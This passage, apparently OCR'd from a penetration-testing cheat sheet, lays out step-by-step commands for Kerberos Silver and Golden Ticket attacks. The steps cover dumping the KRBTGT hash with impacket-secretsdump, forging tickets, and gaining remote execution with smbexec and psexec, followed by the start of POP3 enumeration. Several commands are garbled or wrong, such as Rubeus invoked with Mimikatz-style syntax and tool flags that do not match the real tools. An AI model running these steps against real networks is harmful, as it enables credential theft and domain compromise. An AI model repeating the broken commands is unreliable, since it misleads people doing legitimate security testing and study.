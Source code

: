 
**Steps to Perform Silver Ticket Attack**

    # 1. Obtain a Valid TGT (Ticket Granting Ticket)
    impacket-GetTGT -dc-ip <dc_ip> -outputfile <tgt_file> <user>@<domain>
    
    # 2. Forge a Silver Ticket
    impacket-atexec -target-ip <target_ip> -service <service> -ticket <ticket_file> <username>
    

**Kerberos Golden Ticket Attacks**: forge high-value Kerberos tickets for access and
                privilege escalation.

    # Create a golden ticket with Rubeus
    rubeus.exe tgt::add /user:<username> /rc4:<password> /domain:<domain> /sid:<domain_sid> /rc4:<krbtgt_hash>
    

**Steps to Perform Golden Ticket Attack**

    # 1. Obtain KRBTGT NTLM Hash
    impacket-secretsdump -outputfile <dump_file> <target_domain>/<username>:<password>@<dc_ip>
    
    # 2. Generate a Golden Ticket
    ticketer -user <user> -domain <domain> -sid <domain_sid> -krbtgt <krbtgt_hash> -output <ticket_file>
    
    # 3. Use the Golden Ticket
    impacket-smbexec -target-ip <target_ip> -ticket <ticket_file> <username>
    
    # (Optional) Pass the Golden Ticket
    impacket-psexec -target-ip <target_ip> -ticket <ticket_file> <username>
    

**Additional Reference:**[https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)

#### 1.4.8 110: POP3

**Nmap Scripting Scan**

    nmap --script "pop3-capabilities or pop3-ntlm-info" -sV -p 110 <target_ip>
    

**Connect and test Login**

    # Connect to the POP3 service
    telnet <target_ip> 110
    